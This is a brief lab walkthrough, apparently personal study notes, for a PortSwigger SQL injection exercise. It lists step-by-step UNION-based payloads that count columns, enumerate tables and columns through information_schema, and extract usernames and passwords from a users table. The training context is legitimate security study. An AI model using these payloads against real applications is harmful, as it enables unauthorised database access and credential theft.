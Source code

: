 # SQL injection attack, listing the database contents on non-Oracle databases
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

Step - 1
-
`'`</br>
Error
Single Quotes

Step - 2
-
`'--`</br>
No MySQL

Step - 3
-
`' ORDER BY 3--`</br>
Error > 2 Column

Step - 4
-
`' UNION SELECT 'a','a'--`</br>
2 String Column

Step - 5
-
`' UNION SELECT 'a',table_name FROM information_schema.tables--`</br>
1. Table Name: users_losije

Step - 6
-
`' UNION SELECT 'a',column_name FROM information_schema.columns WHERE table_name='users_losije'--`</br>
1. Column Name: username_nlazuv and password_xcildc

Step - 7
-
`' UNION SELECT 'a',username_nlazuv || '~' || password_xcildc FROM users_losije--`
